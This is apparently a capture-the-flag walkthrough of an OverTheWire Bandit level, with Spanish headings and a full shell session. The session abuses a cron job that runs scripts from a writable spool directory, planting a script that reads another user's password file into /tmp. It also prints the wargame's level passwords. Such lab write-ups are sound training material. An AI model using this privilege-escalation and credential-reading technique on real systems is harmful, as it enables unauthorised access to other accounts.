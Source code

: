 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
bandit23 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
## Solución
```
```bandit23@bandit:~$ whoami
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ chmod 777 /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ cd /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password" > script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ touch password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4026 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ pwd
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4029 root     root     11063296 Sep  4 16:37 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:09 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:24 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:37 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$
```

## Notas adicionales

## Referencias


